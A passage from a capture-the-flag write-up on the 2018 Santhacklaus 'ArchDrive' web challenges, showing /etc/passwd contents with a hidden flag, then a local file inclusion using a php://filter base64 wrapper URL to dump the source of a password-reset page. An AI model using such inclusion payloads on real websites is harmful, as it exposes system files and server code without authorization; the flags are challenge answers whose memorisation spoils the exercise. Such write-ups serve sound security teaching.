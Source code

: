 ```bash
_apt:x:100:65534::/nonexistent:/bin/false
G0lD3N_Us3r:x:1000:1000:IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r},,,:/home/G0lD3N_Us3r:/bin/bash
```

w00t!

### Flag

> IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r}

## ArchDrive 2/3

### Statement


![](/lib/images/writeups/2018_santhacklaus/archdrive/statement_archdrive2.png)


### State of the art

Ok, we got a __Local file inclusion__, let's try to use the base64 php wrapper (go on payload all the things):

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=reset.php

It gives me some base64 data, here is the decoded data:

```php
<?php session_start(); ?>
<!DOCTYPE html>
<html lang="en">
<head>
<title>Reset Your Password</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="icon" type="image/png" href="images/icons/favicon.ico"/>
<link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
<link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
<link rel="stylesheet" type="text/css" href="fonts/iconic/css/material-design-iconic-font.min.css">
<link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
<link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
<link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
<link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
<link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
<link rel="stylesheet" type="text/css" href="css/util.css">
<link rel="stylesheet" type="text/css" href="css/main.css">
</head>
<body>
<div class="limiter">
    <div class="container-login100">
        <div class="wrap-login100">
            <form class="login100-form validate-form" method="post" action="?page=reset.php">
<span class="login100-form-title p-b-48">
<a href="index.php"><img class="logo-brand" src="images/archdrive-color.png" alt="ArchDrive logo"></a>
</span>
<span class="login100-form-title p-b-26">
ArchDrive
</span>
<p class="login100-form-title" style="font-size: 24px">Reset My Password</p></br>

<?php
    if(isset($_POST['recover']))
    {
    ?>
```